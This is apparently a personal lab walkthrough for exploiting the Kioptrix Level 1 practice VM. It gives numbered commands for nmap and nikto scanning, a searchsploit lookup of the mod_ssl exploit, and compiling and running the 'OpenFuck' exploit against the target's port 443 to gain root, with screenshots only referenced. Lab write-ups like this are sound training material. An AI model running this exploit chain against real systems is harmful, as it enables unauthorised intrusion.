 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/05-mar-wednesday/kioptrix-level-1/"}
---
```


1) ifconfig {note down your ip}
2) net discover -r 192.168.5.60(your ip )
![attachments/Pasted image 20250319185539.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319185539.png)

3) nmap -Pn 192.168.5.203  {to find the target ip }
![attachments/Pasted image 20250319190100.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190100.png)

4) nmap -T4 -sC -sV -v -Pn 192.168.5.203 -oN kioptrix
![attachments/Pasted image 20250319190124.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190124.png)

5) cat kioptrix | grep open
![attachments/Pasted image 20250319190134.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190134.png)

6) disable the burp in firefox
![attachments/Pasted image 20250319190148.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190148.png)

7) hit the target ip in firebox browswer : 192.168.5.203
![attachments/Pasted image 20250319190206.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190206.png)

8) nikto -h http://192.168.5.203
![attachments/Pasted image 20250319190218.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190218.png)

9) nikto -h http://192.169.5.203
![attachments/Pasted image 20250319190229.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190229.png)

10) nikto -h http://192.168.5.203 > kiopritix_nikto → then control+c
![attachments/Pasted image 20250319190244.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190244.png)

11) searchsploit mod ssl 2.8.4
![attachments/Pasted image 20250319190257.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190257.png)

12) searchsploit -m 47080
![attachments/Pasted image 20250319190308.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190308.png)

13) apt update
14) open github link in firefox of kali : [openfuck github link](https://github.com/RafaelM1994/InfoSec/blob/master/c_files/openfuck_updated.c) and download.
![attachments/Pasted image 20250319190335.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190335.png)

15) apt-get install libssl-dev
16) cd Downloads -> ls -l
![attachments/Pasted image 20250319190355.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190355.png)

17) gcc -o openfuck openfuck_updated.c -lcrypto
![attachments/Pasted image 20250319190418.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190418.png)

18) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190430.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190430.png)

19) type id
![attachments/Pasted image 20250319190440.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190440.png)
- you got the root access !! 👾🥷🔪

19) nano 47080.c
![attachments/Pasted image 20250319190505.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190505.png)

20) then ctrl + F → https
![attachments/Pasted image 20250319190523.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190523.png)

21) edit the https → http → ctrl +s → ctrl + x
![attachments/Pasted image 20250319190540.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190540.png)

22) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190552.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190552.png)

23) type id
![attachments/Pasted image 20250319190604.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190604.png)

#                                    ---****---

